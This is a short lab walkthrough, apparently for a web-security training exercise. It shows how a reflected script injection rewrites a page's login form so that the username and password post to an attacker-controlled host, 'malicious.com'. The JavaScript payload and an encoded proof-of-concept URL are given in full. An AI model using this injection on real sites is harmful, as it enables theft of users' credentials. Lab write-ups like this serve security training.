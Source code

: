 ## Task 3 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/3)</small>

Objectives:

1. Post the Username and Password to Attacker Controlled Server

By default, the form is submitted to the url mentioned in `action` attribute of form tag. If it's not set, the action will defaults to current url

<img src="https://i.ibb.co/n3ysrx9/image.png" alt="image" border="0">

Luckily here button behaviour is set to `Submit`. Also if you see there is only one form in whole page. So you can use [Document.forms](https://developer.mozilla.org/en-US/docs/Web/API/Document/forms) to get an array of forms. In this case, we have only 1 form. So modifying it would be like this

```js
document.forms[0].action = "http://malicious.com";
```

Now we are also supposed to `POST` the data. In form you can set the methods using `method=POST` attribute. If this is not mentioned, it defaults to `GET` method. [READ MORE](https://www.w3schools.com/html/html_forms_attributes.asp)

```js
document.forms[0].method = "POST";
```

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/3?url=%3Cscript%3Edocument.forms%5B0%5D.action%20%3D%20%22http%3A%2F%2Fmalicious.com%22%3Bdocument.forms%5B0%5D.method%20%3D%20%22POST%22%3B%3C%2Fscript%3E)
